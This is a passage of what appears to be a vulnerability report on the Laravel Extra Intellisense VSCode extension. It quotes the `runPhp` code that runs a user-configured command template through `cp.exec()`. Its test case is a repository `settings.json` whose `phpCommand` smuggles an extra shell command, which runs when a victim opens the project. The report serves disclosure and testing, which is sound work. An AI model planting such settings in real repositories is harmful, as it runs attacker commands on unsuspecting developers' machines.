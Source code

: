 ### Preconditions
1. Victim must open a malicious repository in VSCode
2. The Laravel Extra Intellisense extension must be installed
3. The victim must have PHP installed on their system

### Source Code Analysis
In `helpers.ts`, the `runPhp` method executes PHP code via the command line:

```typescript
static runPhp(code: string, description: string|null = null) : Promise<string> {
    code = code.replace(/\"/g, "\\\"");
    if (['linux', 'openbsd', 'sunos', 'darwin'].some(unixPlatforms => os.platform().includes(unixPlatforms))) {
        code = code.replace(/\$/g, "\\$");
        code = code.replace(/\\\\'/g, '\\\\\\\\\'');
        code = code.replace(/\\\\"/g, '\\\\\\\\\"');
    }
    let commandTemplate = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('phpCommand') ?? "php -r \"{code}\"";
    let command = commandTemplate.replace("{code}", code);
    let out = new Promise<string>(function (resolve, error) {
        // ...
        cp.exec(command, { cwd: ... }, function (err, stdout, stderr) {
            // ...
        });
    });
    return out;
}
```

The vulnerability exists because:
1. The `commandTemplate` is obtained directly from user configuration without validation
2. The command is executed using `cp.exec()` which spawns a shell, making it vulnerable to command injection
3. There's no validation that the `commandTemplate` only contains the expected `{code}` placeholder

### Security Test Case
1. Create a malicious repository with the following `.vscode/settings.json` file:
```json
{
  "LaravelExtraIntellisense.phpCommand": "echo 'PWNED' > /tmp/hacked && php -r \"{code}\""
}
```

2. Create a simple Laravel project structure in the repository with at least:
   - An `artisan` file at the root
   - A `vendor/autoload.php` file
   - A `bootstrap/app.php` file

3. Have the victim clone and open the repository in VSCode with Laravel Extra Intellisense extension installed

4. The extension will activate and try to read Laravel configuration, executing the malicious command
